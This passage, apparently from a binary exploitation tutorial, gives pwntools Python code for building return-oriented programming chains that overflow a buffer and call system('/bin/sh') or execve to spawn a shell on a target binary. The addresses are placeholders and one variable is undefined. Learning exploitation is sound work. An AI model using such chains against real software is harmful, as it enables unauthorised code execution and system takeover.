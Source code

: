 ```python
    return ret_gadgets

gadgets = find_gadgets_manual('./target')
for name, addr in gadgets:
    print(f"{name}: 0x{addr:x}")
```

## Basic ROP Chains

### Simple Function Call

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
elf = ELF('./target')

def basic_rop_chain():
    # Find gadgets
    pop_rdi = 0x400123  # pop rdi; ret
    system_addr = elf.plt['system']
    bin_sh = next(elf.search(b'/bin/sh'))
    
    # Build ROP chain
    rop_chain = [
        pop_rdi,      # Gadget to set RDI
        bin_sh,       # Argument: "/bin/sh"
        system_addr   # Call system()
    ]
    
    # Create payload
    offset = 72
    payload = b'A' * offset
    
    for addr in rop_chain:
        payload += p64(addr)
    
    return payload
```

### Multi-argument Function Call

```python
#!/usr/bin/env python3
from pwn import *

def multi_arg_rop():
    # For execve("/bin/sh", NULL, NULL)
    # Need: RDI = "/bin/sh", RSI = NULL, RDX = NULL
    
    pop_rdi = 0x400123    # pop rdi; ret
    pop_rsi_r15 = 0x400124  # pop rsi; pop r15; ret  
    pop_rdx = 0x400125    # pop rdx; ret
    
    rop_chain = [
        pop_rdi,
        bin_sh_addr,      # RDI = "/bin/sh"
        
        pop_rsi_r15,
        0x0,              # RSI = NULL
        0x0,              # R15 = dummy value
        
```